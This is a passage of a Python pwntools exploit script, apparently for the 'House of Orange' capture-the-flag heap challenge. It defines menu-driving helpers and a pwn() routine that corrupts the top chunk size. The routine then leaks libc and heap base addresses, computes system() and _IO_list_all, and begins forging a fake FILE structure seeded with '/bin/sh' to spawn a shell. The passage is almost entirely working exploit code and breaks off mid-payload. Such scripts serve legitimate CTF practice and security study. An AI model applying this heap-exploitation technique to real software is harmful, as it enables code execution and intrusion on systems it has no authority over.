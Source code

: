 ```python
	p.recvuntil('Your choice : ')
	p.sendline('1')
	p.recvuntil('Length of name :')
	p.sendline(str(length))
	p.recvuntil('Name :')
	p.send(name)
	p.recvuntil('Price of Orange:')
	p.sendline('2')
	p.recvuntil('Color of Orange:')
	p.sendline('2')
	p.recvuntil('Finish')

def see():
	p.recvuntil('Your choice :')
	p.sendline('2')

def upgrade(length,name):
	p.recvuntil('Your choice :')
	p.sendline('3')
	p.recvuntil('Length of name :')
	p.sendline(str(length))
	p.recvuntil('Name:')
	p.send(name)
	p.recvuntil('Price of Orange: ')
	p.sendline('2')
	p.recvuntil('Color of Orange: ')
	p.sendline('2')
	p.recvuntil('Finish')


def pwn():
	#step1. alter the top chunk's size
	build(0x10,'aaaa')
	payload = 'a'*0x18 + p64(0x21) + p64(0)*3 + p64(0xfa1)
	upgrade(0x100,payload)
	build(0x1000,'cccccccc')
	
	#step2. leak the address
	build(0x400,'aaaaaaaa')	#chunk*
	see()
	p.recvuntil('a'*8)
	addr = u64(p.recvline()[:-1].ljust(8,'\x00'))
	libc_base = addr -0x3C4B20-1640
	log.success('libc_base:'+hex(libc_base))
	system_addr = libc_base + libc.symbols['system']
	log.success('system_addr: '+hex(system_addr))
	upgrade(0x400,'a'*16)
	see()
	p.recvuntil('a'*16)
	heap_base = u64(p.recvline()[:-1].ljust(8,'\x00'))-0xc0
	log.success('chunk_addr: '+hex(heap_base))

	IO_list_all_addr = libc_base+libc.symbols['_IO_list_all']
	log.success('IO_list_all_addr: '+hex(IO_list_all_addr))
	payload = 'a'*0x400
	payload += p64(0)+p64(0x21)+p32(1)+p32(0x1f)+p64(0)	

  #step3. forge data
	fake_file = '/bin/sh\x00'+p64(0x61)
	fake_file += p64(0) + p64(IO_list_all_addr-0x10)
	fake_file += p64(0)+p64(1)
	fake_file = fake_file.ljust(0xc0,'\x00')
	fake_file += p64(0) #mode<=0
```